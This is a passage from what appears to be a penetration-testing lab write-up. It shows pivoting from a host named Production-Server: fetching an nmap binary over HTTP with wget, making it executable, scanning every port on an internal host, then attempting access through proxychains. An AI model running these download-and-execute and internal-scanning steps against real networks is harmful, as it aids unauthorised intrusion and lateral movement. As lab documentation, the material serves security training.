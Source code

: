 Then on Production-Server, download nmap and run the scan:

```
cd /tmp
wget http://192,168.100.11/nmap
chmod +x ./nmap
./nmap -n -Pn -T4 10.1.3.1 -p-
```

![picture 28](images/953b40f002ea08a33026d86d3602be7741c3c24e818c141a098f5b03e969aa6c.png)  

As shown, tcp/1234 is opened on 10.1.3.1.

<br/>

Try to access via proxychain:

![picture 29](images/72cffca4a25e0c6a562f46fc594812d68e715e63d3eb49596cdc6e6597aa5a5c.png)  

<br/>
